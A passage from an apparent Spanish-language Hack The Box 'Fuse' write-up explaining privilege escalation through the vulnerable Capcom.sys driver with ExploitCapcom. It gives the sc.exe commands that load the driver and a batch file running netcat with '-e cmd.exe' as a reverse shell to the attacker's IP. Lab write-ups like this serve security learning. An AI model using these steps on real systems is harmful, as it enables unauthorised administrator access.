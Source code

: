 ![evilwruploaddriverdone](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/fuse/evilwruploaddriverdone.png)

Listo, logramos ejecutar correctamente el binario. Ahora solo nos queda hablar sobre como explotar **Capcom.sys**.

Existe una utilidad llamada [**ExploitCapcom**](https://github.com/tandasat/ExploitCapcom) ¿Bastante intuitiva no?. Pues lo que tenemos que indicarle es (aunque lo intente sin las 2 primeras linea y me funciono igual :P):

```powershell
> sc.exe create Capcom type= kernel binPath= C:\test\Capcom.sys
> sc.exe start Capcom
> ./ExploitCapcom.exe
```

Listo, conociendo su uso debemos modificar esta porcion de codigo:

![vsexploitcaprevshell](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/fuse/vsexploitcaprevshell.png)

Para llegar a esa solución tuve muchos (muchos) intentos fallidos y básicamente fue por no parar y buscar sobre la función que ejecuta el comando en el sistema.

* [Documentación de Microsoft sobre **CreateProcess()**](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa).

Apoyándome en esa descripción, es que entendí que debía indicarle como primer parámetro (nombre de la aplicación): `NULL`, ya que estamos en la consola y no estoy ejecutando ninguna aplicación... Y en el segundo parámetro (linea de comando) si dejar la petición de la revshell.

Compilando, subiendo y ejecutando logramos obtener la dichosa Shell como administrador :)

![flags_fuse](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/fuse/flags_fuse.png)

...

Después caí en cuenta que para evitar tantas compilaciones, sencillamente hubiera podido crear un archivo `.bat` con las instrucciones del **netcat** y que el ejecutable llamara a ese archivo .__ .

Creamos el archivo:

```bash
> echo "@echo off" > retrievemagic.bat
> echo "C:\test\nc.exe 10.10.15.35 4433 -e cmd.exe" >> retrievemagic.bat
```

Y después simplemente le indicamos que siempre nos ejecute ese archivo :)

![vsexploitcaprevshell](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/fuse/vsexploitcapcomwithbatfile.png)

...

He creado un script para la subida y ejecución de los archivos... El único problema está en la obtención de la reverse Shell (no sé por qué, averigüe y averigüe pero nada). De igual forma seguiré testeando, pero lo subo por si alguno sabe como debe ser llamado `ExploitCapcom.exe` desde el script para que haga la petición correctamente. Lo demás funciona perfe, sube los archivos y carga el driver.

El problema está en la herramienta (winrm) o en la línea de ejecución del script, ya que tomando el mismo comando y usándolo dentro de la sesión de PowerShell de `evilwinrm` ta todo bien y se ejecuta correctamente.
